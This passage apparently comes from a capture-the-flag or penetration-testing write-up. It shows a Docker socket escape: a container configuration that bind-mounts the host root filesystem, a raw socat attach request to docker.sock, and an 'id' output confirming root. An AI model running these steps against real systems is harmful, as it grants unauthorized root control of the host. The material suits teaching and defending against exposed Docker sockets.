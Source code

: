     
    
    {
      "Image": "sandbox:latest",
      "Cmd": [
        "/bin/sh"
      ],
      "DetachKeys": "Ctrl-p,Ctrl-q",
      "OpenStdin": true,
      "Mounts": [
        {
          "Type": "bind",
          "Source": "/",
          "Target": "/rootfs"
        }
      ]
    }
    

I’ll connect to the container using `socat` (I had to upload a copy downloaded
from [here](https://github.com/andrew-d/static-
binaries/blob/master/binaries/linux/x86_64/socat)), and enter an HTTP PORT
request:

    
    
    root@2d24bf61767c:~# ./socat - UNIX-CONNECT:/var/run/docker.sock
    POST /containers/22c0/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
    Host: 
    Connection: Upgrade
    Upgrade: tcp
    

The response back shows `UPGRADED`:

    
    
    root@2d24bf61767c:~# ./socat - UNIX-CONNECT:/var/run/docker.sock
    POST /containers/22c0/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
    Host: 
    Connection: Upgrade
    Upgrade: tcp
                                  
    HTTP/1.1 101 UPGRADED   
    Content-Type: application/vnd.docker.raw-stream
    Connection: Upgrade
    Upgrade: tcp                                                                                                              
    
    

At this point the terminal is just hanging, but if I give it a command, it
runs and returns results:

    
    
    id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27
    (video)
    